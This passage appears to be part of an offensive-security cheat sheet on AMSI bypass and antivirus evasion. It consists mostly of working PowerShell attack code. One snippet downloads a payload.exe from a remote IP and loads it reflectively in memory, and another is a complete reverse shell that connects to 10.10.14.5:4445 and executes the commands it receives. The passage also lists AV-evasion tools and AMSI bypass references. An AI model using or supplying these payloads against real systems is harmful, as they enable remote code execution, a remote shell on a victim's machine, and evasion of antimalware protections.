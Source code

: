 ```powershell
$I.Write($m,0,$m.Length);
$I.Flush()};
$c.Close()
```
Credit: @TihanyiNorbert (Based on the original nishang Framework written by @nikhil_mitt)

## Misc things:

WebClient DownloadData http://x.x.x.x/file.exe method:
```powershell
$bytes = (new-object net.webclient).downloaddata("http://10.10.16.74:8080/payload.exe")
[System.Reflection.Assembly]::Load($bytes)
$BindingFlags= [Reflection.BindingFlags] "NonPublic,Static"
$main = [Shell].getmethod("Main", $BindingFlags)
$main.Invoke($null, $null)
```

Reverse PowerShell:
```powershell
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.5', 4445);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
        $writer.Write("PS> ");
        $writer.Flush();
        $read = $null;
        while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $read);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2  = $sendback;
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $writer.Write($sendbyte,0,$sendbyte.Length);
}While ($true);
$writer.close();$socket.close();
```
## Tools

Tools that may help with AV Evasion: 
- https://github.com/phra/PEzor
- https://github.com/bats3c/darkarmour
- https://github.com/loadenmb/tvasion

## References

[Windows AMSI docs](https://docs.microsoft.com/en-us/windows/win32/amsi/)
[Common Language Runtime CLR](https://learn.microsoft.com/en-us/dotnet/standard/clr)
[pentestlaboratories article](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
[AMSI Documentation](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[Documentation AMSI](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[Documentation - How AMSI Helps](https://learn.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)
[ASMI Result Documentation](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)
[AMSI Documentation](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[InsecurePowershell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master)
[S3cur3Th1sSh1t's currated List](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)